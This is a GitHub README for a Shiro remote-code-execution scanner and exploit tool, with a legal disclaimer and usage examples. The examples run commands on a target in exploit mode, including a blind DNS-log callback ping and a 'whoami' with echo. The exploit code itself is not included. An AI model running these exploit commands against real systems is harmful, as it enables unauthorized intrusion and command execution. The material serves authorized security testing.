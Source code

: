 # Shiro-Rce-Tool
一个简单的Shiro RCE检测和利用脚本。- Simple scanner and exploit for Shiro RCE.
  
![GitHub License](https://img.shields.io/github/license/Hack3rHan/Shiro-Rce-Tool)

## 声明 WARNING
* 仅供安全人员验证、测试是否存在此漏洞。  
* It is only for security researcher to verify and test whether this vulnerability exists.  
* **使用此工具检测必须遵守请使用者遵守[《中华人民共和国网络安全法》](http://www.cac.gov.cn/2016-11/07/c_1119867116.htm) 以及当地的法律，勿用于非授权的测试，本人不负任何连带法律责任。**  
* **Users must obey [the Cybersecurity Law of the People's Republic of China](http://www.cac.gov.cn/2016-11/07/c_1119867116.htm)  and local laws.**

## 使用方法 - Usage
**你可以根据你的需求调整data目录下的keys.enable.txt和keys.disable.txt。**  
**You can change the data/keys.enable.txt and data/keys.disable.txt as you like.**  
  
**建议只使用Scan模式检测漏洞，不建议在不了解该漏洞的情况下使用Exploit模式。**  
**It is recommended to only use Scan mode to verify vulnerabilities, and it is not recommended to use Exploit mode without a good knowledge of this vulnerability.**  

* 安装需要的包 - Install required packages  
```bash
pip install -r requirements.txt
```

* 检查该漏洞 - To scan this vulnerability
```bash
python ShiroRceTool.py -m scan -u "http://example.com"
```
  
* 执行命令 (不回显) - Execute command with no echo
```bash
python ShiroRceTool.py -m exploit -u "http://example.com" -c "ping dnslog.example.com"
```
  
* 执行命令（尝试回显） - Execute command with echo
```bash
python ShiroRceTool.py -m exploit -u "http://example.com" -c "whoami" -e
```
  
* 获取帮助 - Get help
```bash
python ShiroRceTool.py
 ____  _     _           ____         _____           _
/ ___|| |__ (_)_ __ ___ |  _ \ ___ __|_   _|__   ___ | |
\___ \| '_ \| | '__/ _ \| |_) / __/ _ \| |/ _ \ / _ \| |
 ___) | | | | | | | (_) |  _ < (_|  __/| | (_) | (_) | |
|____/|_| |_|_|_|  \___/|_| \_\___\___||_|\___/ \___/|_|

                        By: Hack3rHan

usage: ShiroRceTool.py [-h] [-m MODE] [-u URL] [-c CMD] [-e]

options:
  -h, --help            show this help message and exit
  -m MODE, --mode MODE  "exploit" or "scan".
  -u URL, --url URL     URL of the target.
  -c CMD, --cmd CMD     Command to execute.
  -e, --echo            Echo mode.
```